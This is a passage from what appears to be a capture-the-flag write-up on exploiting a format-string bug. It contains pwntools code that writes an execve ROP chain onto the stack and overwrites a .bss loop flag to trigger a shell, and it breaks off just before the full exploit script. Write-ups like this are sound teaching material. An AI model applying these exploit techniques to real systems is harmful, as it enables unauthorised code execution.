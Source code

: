```py
rop_chain += p64(pop_rdx_rax) + p64(envp) + p64(execve_syscall_number)
rop_chain += p64(syscall)


for i in range(0, len(rop_chain), 4):
    dword = rop_chain[i:i+4]

    fmt_str.write(saved_rip + i, dword)
    fmt_str.execute_writes()
```

## Stop the endless loop

Everything is in place! We have our ropchain on the stack, that will be executed and spawn a shell once the function ends. Yes, but... the function never ends! \
If we take a look at the function in IDA, we can see it checks a global variable.

![](images/decomp.png)

This global variable is located in the `.bss` section and there's no code anywhere that is able to change its value.

![](images/bss.png)

We just have to write a 1 in this location and the loop will end, triggering the end of the function and so our ropchain execution!

```py
exit_payload = fmtstr_payload(fmt_str.offset, { should_exit: 1 })
r.sendlineafter(b"> ", exit_payload)
```

## Putting everything together

If we put every step together in one big script to do the full exploitation, here is how it looks like:
